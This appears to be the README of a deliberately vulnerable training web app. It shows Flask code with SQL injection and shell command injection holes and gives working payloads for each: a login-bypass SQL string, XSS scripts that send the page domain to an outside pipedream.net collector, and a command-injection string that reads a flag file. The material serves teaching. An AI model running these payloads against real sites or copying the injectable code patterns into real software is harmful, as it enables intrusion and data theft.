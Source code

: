 # Start

```sh
$ git clone https://github.com/JaysesS/Overview-of-web-vulnerabilities.git
$ cd Overview-of-web-vulnerabilities
$ python3 -m pip -r requirements.txt
$ python3 run.py
```

# SQLi

Код на сервере:

```python
lf = LoginForm()
if lf.validate_on_submit():
    result = check_user_sqli(lf.username.data, lf.password.data)
    if result:
        return render_template("sqli.html", result = result)
    else:
        flash('Incorrect data!')
```

```python
@create_db_connect("sqli.db")
def check_user_sqli(user, pswd, cursor):
    cursor.execute("SELECT username, password FROM Users WHERE username = \"{}\" AND password = \"{}\"".format(user, pswd))
    return cursor.fetchall()
```
Payload:
```sh
admin : 1" OR 1=1;
```

# XSS REFLECTED

![Task](img/xss_clear.png)

Payload:
```sh
1337<script>var img = new Image();img.src = "https://enm3vddkwx8b.x.pipedream.net?some_data=" + document.domain;document.getElementById('body').appendChild(img);</script>
```
![Task](img/xss_work.png)

![Task](img/xss_work2.png)

![Task](img/xss_work3.png)

# XSS STORED

![Task](img/xss_stored_1.png)

Payload in note:
```sh
1337<script>var img = new Image();img.src = "https://enm3vddkwx8b.x.pipedream.net?some_data=" + document.domain;document.getElementById('body').appendChild(img);</script>
```

![Task](img/xss_stored_3.png)

![Task](img/xss_work2.png)

![Task](img/xss_stored_4.png)

# RCE

![Task](img/rce_work.png)

```python
mf = MessageForm()
if mf.validate_on_submit():
    result = write_message_rce(mf.message.data)
    if len(result) == 0:
        flash('Message saved!')
    else:
        flash(result)
```
```python
def write_message_rce(note):
    command = 'echo "' + str(note) + '" > ' + os.path.join(os.path.abspath("."),'data_rce/')+ str(randint(0,100)) + '.txt'
    result = ''
    for line in run_command(command):
        result += line.decode()
    return result
```
```python
def run_command(command):
    p = subprocess.Popen(command,
                         stdout=subprocess.PIPE,
                         stderr=subprocess.STDOUT,
                         shell=True)
    return iter(p.stdout.readline, b'')
```

Payload in note:
```sh
1" && cat data_rce/flag.txt #
```

![Task](img/rce_work2.png)